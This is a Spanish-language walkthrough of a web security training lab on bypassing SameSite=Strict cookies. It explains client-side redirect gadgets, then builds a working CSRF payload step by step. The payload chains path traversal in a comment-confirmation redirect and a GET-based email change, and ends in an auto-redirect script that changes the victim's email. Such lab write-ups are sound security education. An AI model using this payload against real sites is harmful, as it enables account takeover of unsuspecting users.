







Si se configura una cookie con el `SameSite=Strict`atributo, los navegadores no la incluirán en ninguna solicitud entre sitios. Es posible que pueda evitar esta limitación si encuentra un gadget que genere una solicitud secundaria dentro del mismo sitio.

Un posible gadget es una redirección del lado del cliente que construye dinámicamente el objetivo de la redirección utilizando información controlable por el atacante, como parámetros de URL. 

En lo que respecta a los navegadores, estas redirecciones del lado del cliente no son realmente redirecciones; la solicitud resultante se trata como una solicitud normal e independiente. Y lo que es más importante, se trata de una petición al mismo sitio y, como tal, incluirá todas las cookies relacionadas con el sitio, independientemente de las restricciones que existan.

Si puedes manipular este gadget para provocar una petición secundaria maliciosa, esto puede permitirte eludir completamente cualquier restricción de cookies SameSite.

Tenga en cuenta que el ataque equivalente no es posible con redirecciones del lado del servidor. En este caso, los navegadores reconocen que la petición de seguir la redirección resultó de una petición cross-site inicialmente, por lo que todavía aplican las restricciones de cookies apropiadas.

## LAB



En el perfil del usuario tendremos un apartado para actualizar el email del usuario



Además, podemos observar que el valor de `SameSite` es de `Strict`, por lo que explotar un CSRF no será fácil.



Investigando un poco en sitio web encontramos que al hacer un comentario, este hace una redirección al post que se comentó.





Haciendo unas pruebas y agregar `/../../my-account` este me redirige a `my-account` por lo que usaremos esto para mandar nuestra petición de cambio email

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account
```



Además, interceptamos la petición y cambiamos el método de `POST` a `GET` y enviamos, en este podemos ver que acepta nuestra petición.



Entonces podemos empezar a construir nuestro POC 

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account//change-email?email=hacker8%40pwned.net&submit=1
```

Luego de construir el POC probé y no conseguí cambiar el correo, esto debido a que `&` no estaba en urlencode, por lo que lo convertí a `%26` y me quedo el POC final de la siguiente manera:

```html
https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account//change-email?email=hacker8%40pwned.net%26submit=1
```

Este si funciono, por lo que termine de construir el POC de la siguiente manera:

```html
<script>
          document.location = "https://0add00b90345a2ca80660d3d006900a9.web-security-academy.net/post/comment/confirmation?postId=1/../../my-account/change-email?email=pwned%40user.net%26submit=1";
      document.forms[0].submit();
</script>
```

Guarde el exploit y haga clic en "Deliver to victim" para resolver el laboratorio.
